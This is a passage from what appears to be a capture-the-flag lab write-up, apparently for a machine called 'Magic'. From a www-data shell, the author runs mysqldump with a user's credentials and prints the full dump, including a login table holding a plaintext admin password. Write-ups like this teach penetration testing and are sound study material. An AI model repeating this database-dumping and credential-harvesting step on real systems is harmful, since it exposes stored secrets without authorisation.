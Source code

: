 Seems __"mysql"__ is not installed but there __"mysqldump"__ on the target. Lets dump the database __"Magic"__

```ruby
www-data@ubuntu:/var/www/Magic$ mysqldump --databases Magic -u theseus -p
Enter password:
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```